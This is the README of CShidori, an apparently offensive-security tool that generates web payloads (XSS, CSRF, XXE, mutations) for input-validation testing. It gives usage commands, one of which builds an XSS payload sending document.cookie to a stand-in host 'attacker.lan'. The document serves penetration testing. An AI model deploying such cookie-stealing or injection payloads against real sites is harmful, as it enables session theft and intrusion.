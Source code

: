 # CShidori

A C# "Thousand Birds" Payloads Generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)
Taisen: [Website](https://taisen.fr)

## supported modes/payloads

- Mutation
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Encoding
- List Dump

## Usage

### Mutation

```powershell
.\CShidori.exe -m mut -o 5 -p test
```

### XSS / Injections

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe -m json -p ..\testing\test.json
```

### XML

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml
```

### GET

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe -m xxe -o file
.\CShidori.exe -m xxe -o call 
.\CShidori.exe -m xxe -o all 
```
### Encode

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### Dump

```powershell
.\CShidori.exe -m bs
```

## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
